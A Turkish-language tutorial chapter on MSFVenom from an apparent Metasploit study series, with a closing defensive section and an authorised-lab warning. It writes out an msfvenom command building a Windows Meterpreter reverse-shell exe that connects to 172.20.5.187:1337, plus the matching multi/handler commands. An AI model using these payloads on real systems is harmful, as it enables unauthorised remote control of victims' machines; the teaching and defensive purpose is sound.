

# Bölüm 11 - MSFVenom

> 📚 [İndeks](00_Metasploit_Framework_%C4%B0ndeks.md)

## 1. MSFVenom
MSFvenom, **Msfpayload** ve **Msfencode** araçlarının tek bir Metasploit Framework uygulamasında birleştirildiği halidir. 8 Haziran 2015 itibarıyla MSFvenom, MSFpayload ve MSFencode'un yerini almıştır.

MSFvenom'un avantajları:
- Tek bir araç
- Standartlaştırılmış komut satırı seçenekleri
- Artırılmış hız

MSFvenom ile birçok farklı platforma yönelik payload üretebiliriz. Örneğin Windows için bir `exe` dosyası, Linux için bir `elf` dosyası ya da Android için bir `apk` dosyası.

MSFvenom, payload'ların hızlıca oluşturulmasına ve kodlanmasına (encode) olanak tanır. Exploitler, payloadlar, encoderlar ve Meterpreter gibi önceki konularda ele aldığımız araçlarla birlikte MSFvenom, bir siber güvenlik uzmanının araç kutusundaki temel elemanlardan biridir.

> [!NOTE]
> **Encoder antivirüsü atlatmaz.** `x86/shikata_ga_nai` gibi encoder'ların asıl işi payload'daki kötü karakterleri (bad chars) temizlemektir; örneğin buffer overflow'da `\x00` string'i keser. Modern antivirüs/EDR araçları Metasploit encoder'larını ve çözücü kodlarını (decoder stub) zaten tanır. Ayrıntı: [Bölüm 7](07_Kodlay%C4%B1c%C4%B1lar.md).

## 2. MSFVenom Kullanımı
Temel kullanım:

```text
msfvenom -p <payload> LHOST=<listen-ip> LPORT=<listen-port> -f <format> -o <outputfile>
```

Örnek:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.5.187 LPORT=1337 -f exe -o meterpreter_shell.exe
```

Bu komut, Windows için reverse bağlantı kuran Meterpreter payload'ı içeren bir `.exe` dosyası oluşturur. `meterpreter_shell.exe` hedef sistemde çalıştırıldığında belirlenen LHOST ve LPORT adresine bağlanır.

### 2.1 Faydalı Parametreler

| Parametre | Ne işe yarar? |
|---|---|
| `-l payloads` / `-l formats` / `-l encoders` | Kullanılabilir payload, format ve encoder'ları listeler |
| `-p <payload> --list-options` | Payload'ın aldığı parametreleri gösterir |
| `-f` | Çıktı formatı: çalıştırılabilir için `exe`, `elf`, `apk`; koda gömmek için `raw`, `python`, `c` |
| `-b '\x00'` | Kötü karakterleri belirtir (encoder'ın gerçek kullanım yeri) |
| `-o` | Çıktı dosyasının adı |

## 3. Staged ve Stageless Payload
İsimdeki `/` ile `_` farkı iki ayrı payload türünü gösterir:

| Payload | Tür | Nasıl çalışır |
|---|---|---|
| `windows/meterpreter/reverse_tcp` | Staged | Dosyada sadece küçük bir stager var; Meterpreter'ın asıl kısmı bağlantı kurulunca ağdan iner |
| `windows/meterpreter_reverse_tcp` | Stageless | Meterpreter'ın tamamı dosyanın içinde; dosya büyük ama tek parça çalışır |

Örnekteki payload staged türde. Bu, [Bölüm 10](10_Meterpreter.md)'daki stager adımıyla doğrudan bağlantılı.

## 4. Handler: Bağlantıyı Karşılamak
Üretilen dosya çalıştırıldığında LHOST:LPORT adresine bağlanmaya çalışır. O adreste bir dinleyici yoksa bağlantı boşa gider. Dinleyici msfconsole'da açılır:

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.20.5.187
msf6 exploit(multi/handler) > set LPORT 1337
msf6 exploit(multi/handler) > run
```

> [!WARNING]
> Handler'daki payload, msfvenom'da kullandığınla **birebir aynı** olmalı. Staged bir payload'ı stageless bir handler'la karşılamak en sık yapılan hatadır: oturum açılır ve hemen kapanır.



## 5. Savunma Tarafı

> [!TIP]
> - **İmza:** msfvenom'un ürettiği `exe` dosyaları varsayılan bir şablon kullanır; bu şablon neredeyse her antivirüste bir imzayla eşleşir.
> - **Ağ:** Beklenmedik bir porta (1337, 4444) giden dış bağlantılar; staged payload'larda bağlantıdan hemen sonra gelen büyük indirme.
> - **Uç nokta:** İndirilenler klasöründen çalışan ve hemen dışarıya bağlantı açan imzasız bir `exe`. Sysmon'da Event ID 1 (süreç oluşturma) ve Event ID 3 (ağ bağlantısı) birlikte görülür.

> [!NOTE]
> **Pratik:** TryHackMe "Metasploit: Exploitation" odasının msfvenom kısmı.

> [!WARNING]
> Metasploit'i yalnızca izinli hedeflerde ve kendi lab ortamında kullan.

---
> 📚 [İndeks](00_Metasploit_Framework_%C4%B0ndeks.md) · ⬅️ [Bölüm 10](10_Meterpreter.md)
